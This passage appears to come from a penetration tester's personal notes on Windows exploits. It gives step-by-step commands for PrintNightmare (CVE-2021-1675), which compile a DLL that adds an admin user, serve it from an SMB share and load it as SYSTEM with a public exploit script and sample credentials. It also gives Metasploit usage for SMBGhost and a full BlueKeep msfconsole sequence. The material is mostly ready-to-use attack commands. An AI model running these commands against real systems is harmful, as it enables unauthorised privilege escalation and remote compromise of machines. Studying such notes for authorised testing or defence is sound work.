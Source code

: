 ~~~ c

// Command-line entry point.
int main() {
    return CreateAdminUserInternal();
}
~~~

Compile DLL.

~~~ bash
x86_64-w64-mingw32-gcc -shared -o ./adduser.dll ./adduser.c -lnetapi32
~~~

Serve DLL over SMB.

~~~ bash
sudo impacket-smbserver -smb2support share .
~~~

Run script from [cube0x0/cve-2021-1675](https://github.com/cube0x0/CVE-2021-1675) to load the DLL in system context.

~~~ bash
python3 ./CVE-2021-1675.py corp.local/jdoe:'passw0rd'@srv01.corp.com '\\192.168.178.42\share\adduser.dll'
~~~

To clean up delete `C:\Windows\System32\spool\drivers\x64\3\adduser.dll` and `C:\Windows\System32\spool\drivers\x64\3\Old\*\adduser.dll`.

Other tools:

- [ly4k/printnightmare](https://github.com/ly4k/PrintNightmare)

# SMBGhost / [CVE-2020-0796](https://www.opencve.io/cve/CVE-2020-0796)

Vulnerability in [[notes/network/smb|SMBv3]] affects Windows 10 1909.

Exploit with Metasploit `exploit/windows/smb/cve_2020_0796_smbghost`.
Remote exploitation is pretty unstable and likely causes a BSOD.

# BlueKeep / [CVE-2019-0708](https://www.opencve.io/cve/CVE-2019-0708)

Vulnerability in [[notes/network/rdp]] affects Windows 7 SP1 and Windows Server 2008 R2.

Exploitation.

=== "[[notes/tools/metasploit]]"
    ~~~
    ❯ msfconsole -q
    msf6 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
    msf6 > set RHOSTS srv01.corp.local
    msf6 > check
    msf6 > set TARGET 1
    msf6 > set GROOMSIZE 50
    msf6 > run
    ~~~
